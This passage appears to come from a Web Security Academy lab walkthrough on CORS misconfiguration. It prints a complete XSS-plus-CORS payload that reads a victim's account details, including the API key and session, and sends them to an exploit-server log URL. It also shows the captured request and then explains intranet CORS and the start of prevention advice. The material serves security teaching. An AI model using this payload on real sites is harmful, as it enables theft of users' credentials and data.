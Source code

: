 A JavaScript alert is loaded in URL encoded format as a value of query parameter `productId`. If going to this URL shows an alert, then the subdomain is vulnerable to the XSS!

Go to exploit server now and enter the following HTML in "Body" section:

```html
<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

Replace placeholders with your credentials and click "Store". Then click "View exploit". Observe that you have landed on a log page and your API key is in the URL. Specifically:

```
GET /exploit-YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key={%20%20%22username%22:%20%22wiener%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22{YOUR-API-KEY}%22,%20%20%22sessions%22:%20[%20%20%20%20%22{YOUR-SESSION-ID}%22%20%20]} HTTP/2
```

Go back to exploit server and click "Deliver exploit to vicitm". Click "Access log" and retrieve victim's API key to solve the lab.

### Intranets and CORS without credentials

Most CORS attacks depend on the server including the `Access-Control-Allow-Credentials: true` header in its response. Without this header, the browser won't send the user's cookies, so an attacker would only be able to access public, unauthenticated data --- something they could obtain directly by visiting the site themselves. However, a notable exception arises with internal websites hosted on private IP ranges, such as those within an organization's intranet. These internal sites often have weaker security measures, making them attractive targets. In such cases, attackers may exploit cross-origin requests from a public site to a private one, for example:

```
GET /reader?url=doc1.pdf  
Host: intranet.normal-website.com  
Origin: https://normal-website.com  
```

If the server responds with:

```
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: *  
```

Then the attacker can read the response even without credentials, potentially exposing sensitive internal information. 

## How to prevent CORS-based attacks.

CORS vulnerabilities typically stem from misconfigured settings, making their prevention largely a matter of proper configuration. The following sections outline key strategies for effectively defending against CORS-based attacks.

